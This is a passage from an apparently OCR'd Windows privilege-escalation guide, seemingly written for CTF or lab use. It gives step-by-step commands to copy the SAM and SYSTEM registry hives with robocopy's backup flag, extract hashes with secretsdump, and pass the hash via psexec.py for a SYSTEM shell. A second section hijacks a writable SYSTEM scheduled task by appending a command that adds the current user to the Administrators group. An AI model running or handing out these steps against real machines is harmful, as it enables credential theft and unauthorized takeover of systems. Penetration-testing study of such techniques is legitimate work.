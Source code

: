     (If reg save is denied, use robocopy which honors backup privilege:)

        robocopy C:\Windows\System32\config C:\Users\Public\SAMcopy SAM SYSTEM /b[25]

    **Explanation:** The `/b` flag in robocopy uses Backup
    mode[\[25\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=SeBackupPrivilege%3A).
    This will copy the SAM and SYSTEM registry hives, which contain user
    password hashes and the system key. Once you have these files
    (SAM.backup & SYSTEM.backup), you can use a tool like \*\*
    secretsdump.py **(Impacket) or** pwdump / mimikatz **offline to
    extract Administrator\'s hash or password. For example, transfer
    those files to Kali and run**
    `secretsdump -sam SAM.backup -system SYSTEM.backup LOCAL`**. If you
    retrieve the local Administrator NTLM hash, you can**
    pass-the-hash\*\* using
    `psexec.py administrator@target -hashes <hash>` to get a SYSTEM
    shell, or crack the hash if it\'s weak. Essentially,
    SeBackupPrivilege gives read access to any file, which we use to
    steal credentials. This isn\'t an immediate one-command root, but
    it\'s a viable path. Don't forget to also consider
    SeRestorePrivilege (you could restore an altered SAM, but that's
    more complex and dangerous).

```{=html}
<!-- -->
```
-   **Scheduled Task Hijack:** -- *Scenario:* A scheduled task named
    \"NightlyBackup\" runs as SYSTEM and calls `C:\Scripts\backup.bat`.
    You have confirmed `C:\Scripts\backup.bat` is writable by standard
    users.\
    **Commands:**\
    Append a command to the script:

```{=html}
<!-- -->
```
-   echo net localgroup administrators %USERNAME% /add >> C:\Scripts\backup.bat

    Wait for the task to run at its scheduled time or force run it if
    possible:

        schtasks /Run /TN "NightlyBackup"

    **Explanation:** We add a line that adds our current user to the
    Administrators
    group[\[33\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=If%20task%20script%20is%20writable,C%3A%5Cpath%5Cto%5Ctask%5Cscript.bat).
    When the scheduled task triggers (running as SYSTEM), it executes
    the modified batch file and thereby elevates our user. We can then
    open a new command prompt and have admin rights. If we can\'t force
    the task to run and it runs, say, in a few hours, that's a problem
    if time is short. In such a case, better to try another method or
    see if you can change the trigger (probably not without admin
    rights). Scheduled tasks often have predictable times; some CTF
    tasks run every minute or 5 minutes for convenience.
